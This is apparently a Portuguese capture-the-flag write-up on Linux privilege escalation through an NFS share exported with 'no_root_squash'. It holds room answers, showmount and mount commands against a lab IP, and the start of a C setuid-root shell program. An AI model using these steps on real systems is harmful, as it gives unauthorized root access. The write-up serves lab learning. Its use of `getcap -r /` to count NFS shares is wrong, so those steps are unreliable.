
---

## Privilege Escalation: NFS

- O elemento crítico para este vetor de escalonamento de privilégios é a opção “no_root_squash”. Por padrão, o NFS mudará o usuário root para nfsnobody e impedirá que qualquer arquivo opere com privilégios de root. Se a opção “no_root_squash” estiver presente em um compartilhamento gravável, podemos criar um executável com conjunto de bits SUID e executá-lo no sistema de destino.
- O usuário root tem privilégios ilimitados em um sistema. Ao conceder acesso total a arquivos e diretórios remotos ao root, você estaria efetivamente concedendo privilégios administrativos completos a qualquer computador remoto que acessasse seus recursos via NFS. Isso poderia levar a erros acidentais ou abusos maliciosos. Por isso acontece essa troca.

### How many mountable shares can you identify on the target system?

```bash
getcap -r / 2>/dev/null
#ou
showmount -e 10.10.142.130
```

- `3`

### How many shares have the "no_root_squash" option enabled?

```bash
getcap -r / 2>/dev/null
```

- `3`

### What is the content of the flag7.txt file?

- Vamos ver novamente as pastas que podem ser compartilhada (da vitima), para linkar com alguma do nosso pc (atacante)
- Sintaxe
    
    ```bash
    mount -o rw <ipvitima>:/pasta/vitima/que/compartilha /nossa/pasta/qualquer/nosso/pc/atacante
    ```
    
    - -o rw vai dar permisao de escrever e ler
- O meu fico assim
    
    ```bash
    mount -o rw 10.10.142.130:/tmp/machine /tmp/atacante/
    ```
    
- No nosso pc vamos criar um executavel `.c`
    
    ```bash
    int main()
    {
    	setgid(0);
    	setuid(0);
    	system("/bin/bash");
    	return 0;
    }
    ```
    